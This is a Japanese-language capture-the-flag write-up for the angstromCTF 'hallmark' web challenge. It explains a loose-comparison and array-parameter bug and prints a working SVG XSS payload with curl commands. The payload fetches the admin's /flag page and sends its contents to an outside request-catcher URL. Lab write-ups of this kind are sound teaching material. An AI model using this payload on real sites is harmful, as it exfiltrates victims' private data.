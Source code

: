 # hallmark:web:80pts
Send your loved ones a [Hallmark card](https://hallmark.web.actf.co/)! Maybe even send one to the [admin](https://admin-bot.actf.co/hallmark) 😳.  
[Source code](dist.tar.gz)  

# Solution
リンクとソースが渡される。  
アクセスすると個別のuuidを用いたページにHallmark cardを作成できるサービスのようだ。  
![site1.png](site/site1.png)  
カードはCustom Textのほかに、いくつかの画像を選択できる。  
[Heart](site/site2.png)  
[Snowman](site/site3.png)  
[Flowers](site/site4.png)  
[Cake](site/site5.png)  
いつものAdmin BotがあることからXSSであろうと予測できる。  
ひとまずCustom TextでXSSを試すが、`Content-Type: text/plain`であるので発火しない。  
ソースを見ると以下のようであった。  
```js
~~~
const app = express();
app.use(bodyParser.urlencoded({ extended: true }));
app.use(cookieParser());

const IMAGES = {
    heart: fs.readFileSync("./static/heart.svg"),
    snowman: fs.readFileSync("./static/snowman.svg"),
    flowers: fs.readFileSync("./static/flowers.svg"),
    cake: fs.readFileSync("./static/cake.svg")
};
~~~
app.get("/card", (req, res) => {
    if (req.query.id && cards[req.query.id]) {
        res.setHeader("Content-Type", cards[req.query.id].type);
        res.send(cards[req.query.id].content);
    } else {
        res.send("bad id");
    }
});

app.post("/card", (req, res) => {
    let { svg, content } = req.body;

    let type = "text/plain";
    let id = v4();

    if (svg === "text") {
        type = "text/plain";
        cards[id] = { type, content }
    } else {
        type = "image/svg+xml";
        cards[id] = { type, content: IMAGES[svg] }
    }

    res.redirect("/card?id=" + id);
});

app.put("/card", (req, res) => {
    let { id, type, svg, content } = req.body;

    if (!id || !cards[id]){
        res.send("bad id");
        return;
    }

    cards[id].type = type == "image/svg+xml" ? type : "text/plain";
    cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;

    res.send("ok");
});


// the admin bot will be able to access this
app.get("/flag", (req, res) => {
    if (req.cookies && req.cookies.secret === secret) {
        res.send(flag);
    } else {
        res.send("you can't view this >:(");
    }
});
~~~
```
POSTでカードを作成、GETで閲覧、PUTで変更する機能がある。  
カード画像はsvgのようで、`Content-Type: image/svg+xml`となり、種類はあらかじめ決められている。  
ここで方針として、Custom TextのContent-Typeを書き換えるか、`Content-Type: image/svg+xml`の状態でsvgを書き換えるかのどちらかを狙う。  
前者は`cards[id].type`に任意の文字列を入れることは難しそうであり、後者も`"text/plain"`以外では決まったsvgとなるため、同様に難しそうである。  
ここで`app.use(bodyParser.urlencoded({ extended: true }));`が怪しく、おそらく配列で何とかするのだろうと予測がつく。  
よくソースを見ると、PUTの`cards[id].type = type == "image/svg+xml" ? type : "text/plain";`のみ厳密な比較でない。  
この入力に`["image/svg+xml"]`などを渡してやれば、次の厳密な比較の`cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;`でsvgでないと判定され、自由に内容を書き換えられることに気づく。  
あとはsvgでのXSSを行えばよい。  
以下のペイロードを用いる(リクエスト受信サーバにはRequestBin.comを利用)。  
```xml
<?xml version="1.0" encoding="utf-8"?>
<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 864 864" style="enable-background:new 0 0 864 864;" xml:space="preserve">
<script>
fetch("/flag")
    .then((response) => response.text())
    .then((text) => location.href="https://enxh1c9lp9m1.x.pipedream.net/?s="+text);
</script>
</svg>
```
カードを作成して、変更することで`/flag`をfetchしてやる。  
```bash
$ curl -X POST https://hallmark.web.actf.co/card -d 'svg=text&content=satoki'
Found. Redirecting to /card?id=78016e26-b8e0-4f9f-844f-01bc03ebd315
$ curl -X PUT  https://hallmark.web.actf.co/card -d 'id=78016e26-b8e0-4f9f-844f-01bc03ebd315&type[]=image/svg%2Bxml&svg=satoki&content=<?xml version="1.0" encoding="utf-8"?>
<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 864 864" style="enable-background:new 0 0 864 864;" xml:space="preserve">
<script>
fetch("/flag")
    .then((response) => response.text())
    .then((text) => location.href="https://enxh1c9lp9m1.x.pipedream.net/?s="%2Btext);
</script>
</svg>'
ok
```
これでXSSするURL (`https://hallmark.web.actf.co/card?id=78016e26-b8e0-4f9f-844f-01bc03ebd315`) が完成したので、Admin Botに投げてやる。  
受信サーバでは以下のリクエストが到達する。  
```
GET
/?s=actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}
```
flagが得られた。  

## actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}
